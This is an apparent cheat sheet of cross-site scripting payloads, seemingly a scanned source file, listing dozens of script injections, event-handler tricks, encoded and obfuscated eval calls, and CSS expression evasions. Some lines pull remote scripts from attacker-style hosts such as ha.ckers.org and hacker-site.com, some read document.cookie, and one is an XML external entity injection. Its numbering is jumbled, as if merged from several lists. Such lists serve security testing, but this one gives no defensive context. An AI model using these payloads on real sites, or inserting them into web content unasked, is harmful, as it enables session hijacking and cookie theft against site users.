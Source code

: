21) <img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
>"><ScRiPt%20%0a%0d>alert(561177485777)%3B</ScRiPt>
<x '="foo"><x foo='><img src=x onerror=alert(1)//'>
<div style="font-family:'foo&#10;;color:red;';">XXX
<meta charset="mac-farsi">¼script¾alert(1)¼/script¾
<style> BODY{-moz\00002dbinding:url(URL)} </style> 
[$='ale'+'rt(1)']|[_=frames['Fun'+'ction']]|_($)() 
window.window.window.window.window.window.alert(2);
<SCRIPT SRC=http://hacker-site.com/xss.js></SCRIPT>
<iframe src="javascript:document.vulnerable=true; <
<script>a=/XSS/\ndocument.vulnerable=true;</script>
<img DYNSRC="javascript:document.vulnerable=true;">
<img LOWSRC="javascript:document.vulnerable=true;">
<;IMG SRC="; &;#14;  javascript:alert(';XSS';);";>;
'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
µ=<µ ß='le' µ='a' ø='rt'></µ>,top[µ.@µ+µ.@ß+µ.@ø](µ)
Date [decodeURI('e%76al')] (decodeURI('a%6Cert(1)'))
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<div style="x:expression((window.r==1)?'':eval('r=1;
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
15) <input value=<><iframe/src=javascript:confirm(1)
7) <img src=`%00`&NewLine; onerror=alert(1)&NewLine;
26) <svg contentScriptType=text/vbs><script>MsgBox+1
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
a=/aalertt/;/a(.*)t/.test(a),a=eval(RegExp.$1),a(0) 
7) <var onmouseover="prompt(1)">On Mouse Over</var>​
eval('(' + typeof setTimeout + '(){ alert(1) })()');
<TABLE BACKGROUND="javascript:alert('XSS')"></TABLE>
<;DIV STYLE=";width: expression(alert(';XSS';));";>;
<;SCRIPT SRC=http://ha.ckers.org/xss.js>;<;/SCRIPT>;
<base HREF="javascript:document.vulnerable=true;//">
<bgsound SRC="javascript:document.vulnerable=true;">
<a href="javascript#document.write("XSS-XSS-XSS");">
<script/src=data:text/javascript,alert(1)></script> 
alert(Anything[-6]); // alerts the string "Anything"
(0).constructor.constructor('return alert("\141")')()
 
<a href= harmless=" onmouseover=alert(1)//">test</a> 
<script src="data:text/javascript,alert(1)"></script>
 with(' the help of'+ typeof AnYThing )alert(1);s :-P
<p onmousemove="alert(/XSS/)">Long paragraph here</p>
<script>alert(String.fromCharCode(88,83,83))</script>
<!DOCTYPE x[<!ENTITY x SYSTEM "test.xxe">]><y>&x;</y>
24) <math><a xlink:href="//jsfiddle.net/t846h/">click
</textarea>'"><script>alert(document.cookie)</script>
47) <math><a xlink:href="//jsfiddle.net/t846h/">click
"><BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
36) <img src ?itworksonchrome?\/onerror = alert(1)​​​
<img src="livescript:document.write("XSS-XSS-XSS");">
<img src="javascript:document.write("XSS-XSS-XSS");">
<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
<;IMG ";";";>;<;SCRIPT>;alert(";XSS";)<;/SCRIPT>;";>;
<style>@im\port'\ja\vasc\ript:alert(\"XSS\")';</style>
<input type="image" src="x" onerror="alert(/XSS/)" /> 
&#21477;=RegExp(/e/)[&#54280;]+RegExp(/val/)[&#54280;]